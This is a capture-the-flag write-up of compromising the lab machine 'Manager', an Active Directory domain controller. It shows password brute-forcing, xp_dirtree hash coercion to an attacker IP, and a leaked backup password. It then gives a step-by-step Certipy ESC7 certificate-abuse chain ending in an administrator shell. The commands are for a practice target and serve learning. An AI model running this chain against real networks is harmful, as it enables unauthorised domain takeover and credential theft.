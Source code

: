 #Pwned! 
```IP

```
# Enumeration

## HTTP 80
nothing interesting after fuzzing and analyzing source code
## Kerberos 88
kerbrute user enumeration:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104001.png?raw=true)
## SMB
```
nxc smb 10.10.11.236 -u 'test' -p '' --shares
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104137.png?raw=true)
```
nxc smb 10.10.11.236 -u 'test' -p '' --rid-brute 3000
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229104147.png?raw=true)
We have no interesting shares apparently.
After some trial and error, I discovered that we get a hit with `operator` if we make the user list without capital letters:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229112128.png?raw=true)
```
operator:operator
```

## LDAP
operator is a hit too if we execute nxc against ldap protocol:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113313.png?raw=true)
However ldapsearch doesn't seem capable of retrieving much data:
```
ldapsearch -H ldap://dc01.manager.htb -x -D 'operator@manager.htb' -w 'operator' -b "DC=manager,DC=com"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113253.png?raw=true)
So we will use ldapdomaindump:
```
ldapdomaindump -u management.htb\\operator -p 'operator' 10.10.11.236 -o ./
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229113421.png?raw=true)
We see that raven is apparently the only user capable of connecting remotely. Let's try bruteforcing his password:
```
nxc winrm 10.10.11.236 -u raven -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```
But we have no success.
## MSSQL
We can access the database with operator:operator
```
impacket-mssqlclient Operator@manager.htb -windows-auth
```
cmdshell is disabled, but we can execute xp_dirtree:
```
xp_dirtree '\\10.10.14.9\test'
```
And we get a manager hash, that we can't crack neither with john or hashcat.

# Exploitation
In MSSQL, we can also enumerate the C directories in the target machine with dirtree. This path will lead us to a old backup of the website inside the inetpub/wwwroot directory:
```
xp_dirtree C:\inetpub\wwwroot
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115042.png?raw=true)
We should be able to download it with a browser. Once downloaded, I create a new folder in my local machine and unzip its contents there:
```
unzip website-backup-27-07-23-old.zip -d backup-old
```
Inside `.old-conf.xml` we find a password for user raven:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115425.png?raw=true)
Let's try our credentials on winrm:
```
R4v3nBe5tD3veloP3r!123
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229115655.png?raw=true)
We get access to raven and its user.txt flag.
# PrivEsc

## Manual
After some unsuccessful manual enumeration, knowing that it is a windows domain, we are left with certificates (ADCS) and Bloodhound.
```
certipy-ad find -vulnerable -stdout -u raven@10.10.11.236 -p 'R4v3nBe5tD3veloP3r!123'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229122653.png?raw=true)
We can see how to escalate this vulnerability in the official certipy page:
https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7
```
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -template SubCA -upn administrator@manager.htb
```
```
certipy-ad ca -ca manager-DC01-CA -issue-request 20 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```
```
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target manager.htb -retrieve 20
```
We can now retrieve an NTLM hash with our administrator.pfx:
```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229125317.png?raw=true)
We get an error message because the target machine date and our VM date differs too much. We can synchronize the dates with ntpdate tool:
```
sudo ntpdate 10.10.11.236
```
And now we can use evil-winrm to get an administrator shell and the root flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241229125417.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement

